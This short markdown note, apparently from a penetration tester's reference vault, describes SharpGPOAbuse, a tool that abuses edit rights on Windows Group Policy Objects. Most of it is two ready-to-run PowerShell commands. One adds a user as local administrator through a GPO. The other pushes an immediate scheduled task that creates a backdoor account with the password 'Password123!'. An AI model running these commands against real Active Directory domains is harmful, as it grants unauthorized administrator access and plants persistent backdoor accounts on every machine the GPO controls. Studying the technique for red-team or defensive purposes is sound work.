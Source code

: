```yaml
---
tags:
  - tool
---
```

# SharpGPOAbuse

[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

## Capabilities

```powershell
# Exploit GPO rights to add our user as a local admin to the target GPO
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount gabriel --GPOName 'TestGPO'

# Exploit GPO rights to add a user as admin via immediate machine task
.\SharpGPOAbuse.exe --AddComputerTask --TaskName Backdoor --Author Administrator --Command 'C:\Windows\System32\cmd.exe' --Arguments '/c net user backdoor Password123! /add' --GPOName Backdoor
```
